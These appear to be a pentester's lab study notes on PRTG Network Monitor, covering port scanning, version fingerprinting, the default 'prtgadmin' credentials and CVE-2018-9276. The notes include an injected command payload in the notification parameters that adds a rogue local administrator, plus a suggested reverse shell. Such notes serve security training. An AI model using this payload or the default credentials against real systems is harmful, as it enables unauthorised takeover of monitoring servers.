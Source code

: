https://www.paessler.com/prtg
* Agent-less network monitor software
* Can monitor bandwidth usage, uptime
* Collect statistics from various hosts such as routers, switches, servers and more. 
* Rare to see it exposed externally 
# Discovering and Enumeration
* Found on common web ports
```shell
sudo nmap -sV -p- --open -T4 10.129.201.50
```
* Service Version will look similar to: `Indy httpd 17.3.33.2830 (Paessler PRTG bandwidth monitor)`
* Default Creds are `prtgadmin:prtgadmin`
```shell
curl -s http://10.129.201.50:8080/index.htm -A "Mozilla/5.0 (compatible;  MSIE 7.01; Windows NT 5.0)" | grep version
```
# Leveraging Known Vulnerabilities 
### CVE-2018-9276
* Before version 18.2.39
* `Setup > Account Settings > Notifications > Add New notifications`
* Give the notification a name
* Tick `Execute Program`
* `Program File > Demo exe Notification`
In the paramters
```
`test.txt;net user prtgadm1 Pwn3d_by_PRTG! /add;net localgroup administrators prtgadm1 /add`
```
This will add a new local admin. Maybe do a reverse shell?
* Click save
* Can schedule this to run . 
* Click Test.
* This is a blind injection. 
* 
